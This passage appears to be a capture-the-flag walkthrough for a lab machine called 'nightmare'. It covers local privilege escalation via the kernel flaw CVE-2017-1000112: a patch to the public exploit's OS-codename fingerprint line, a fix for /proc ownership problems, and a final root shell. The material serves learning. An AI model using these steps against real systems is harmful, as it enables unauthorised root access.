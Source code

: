 Looking at the kernel and version information we see that this is an Ubuntu Machine running kernel 4.8.0-58.  This is vulnerable to [CVE-2017-1000112](https://www.exploit-db.com/exploits/43418/).
```bash
$ uname -a 
Linux nightmare 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
``` 

We'll compile the exploit and transfer it over to the test folder, but we're greeted with an error alerting us that the version was not found.  

This exploit appears to use the codename of the OS to fingerprint the parameters to use.  If we view `lsb_release`, we see that the codename has been changed:

```bash
$ lsb_release -a 
No LSB modules are available. 
Distributor ID:    s390x 
Description:    s390x GNU/Linux
Release:    0.1
Codename:    bladerunner
```
This is a relatively easy fix and it just involves changing a single line in the exploit as below:
``` 
diff cve-2017-1000112.c cve-2017-1000112-nightmare.c  
135c135 
<     { "xenial", "4.8.0-58-generic", 0xa5d20, 0xa6110, 0x17c55, 0xe56f5, 0x119227, 0x1b170, 0x439e7a, 0x162622, 0x7bd23, 0x12c7f7, 0x64210, 0x49fa0 },
---
>     { "bladerunner", "4.8.0-58-generic", 0xa5d20, 0xa6110, 0x17c55, 0xe56f5, 0x119227, 0x1b170, 0x439e7a, 0x162622, 0x7bd23, 0x12c7f7, 0x64210, 0x49fa0 },
``` 

However you may still have issues, especially if you run this in your decoder group elevated shell.  If we look at the contents of /proc/self in both shells we see a key difference!  They're all owned by root in our elevated shell.  If you run the exploit in this shell it will fail as it needs access to those files. 

This appears to be due to http://man7.org/linux/man-pages/man5/proc.5.html .

> Each /proc/[pid] subdirectory contains the pseudo-files  and  directories  described  below.  These files are normally owned by the effective user and effective group ID of the process.  However, as  a security  measure, the ownership is made root:root if the process's "dumpable" attribute is set to  a value other than 1. 


 Of course this isn't a big deal as we can still access the test folder via ftpuser.  Simply use our elevated shell to upload the exploit, and then drop down again to run the exploit.

```bash
$ /home/decoder/test/expl.2
bash: cannot set terminal process group (26896): Inappropriate ioctl for device
bash: no job control in this shell
root@nightmare:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

